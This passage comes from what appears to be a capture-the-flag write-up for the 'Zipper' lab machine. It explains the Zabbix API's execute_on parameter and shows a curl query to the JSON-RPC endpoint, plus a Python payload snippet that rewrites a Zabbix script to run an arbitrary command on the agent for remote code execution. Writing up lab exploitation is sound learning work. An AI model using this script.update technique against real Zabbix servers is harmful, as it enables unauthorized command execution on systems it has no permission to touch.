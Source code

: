 ### Why Zabbix and Not Zipper

So that leads to the question - why did this run on Zabbix? I gave it the hostid for Zipper. It has to do with the `execute_on` parameter, which this script makes no changes to.

As the script updates scriptid 1, I’ll look at those details (using `jq` to select just that script):

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"e53de718bf70398f6e26c8cafbc246c6", "params":{}}' | jq '.result | .[] | select(.scriptid == "1")'
{
  "scriptid": "1",
  "name": "Ping",
  "command": "hostname",
  "host_access": "2",
  "usrgrpid": "0",
  "groupid": "0",
  "description": "",
  "confirmation": "",
  "type": "0",
  "execute_on": "1"
}

```

So on a clean reset, the `execute_on` parameter is 1. Looking in the [documentation on the script object](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/object), I’ll see that means to run the command on the Zabbix server, not the agent:

![1550696824535](https://0xdfimages.gitlab.io/img/1550696824535.png)

I can see this more easily in the GUI. I’ll log in as admin, and visit `http://10.10.10.108/zabbix/zabbix.php?action=script.edit&scriptid=1`:

![1550696919679](https://0xdfimages.gitlab.io/img/1550696919679.png)

So since the script doesn’t change it, this script will run on the server and not the agent.

### Update to Run on Zipper

So I have a couple options I can change to get RCE on Zipper. While I’m logged in as Admin, I can just set scriptid 1 to run on agent in the GUI. I could also just add `execute_on` to the update payload in the script:

```

### update
        payload = {
                "jsonrpc": "2.0",
                "method": "script.update",
                "params": {
                    "scriptid": "1",
                    "command": ""+cmd+"",
                    "execute_on": "0"
                },
                "auth" : auth['result'],
                "id" : 0,
        }

```
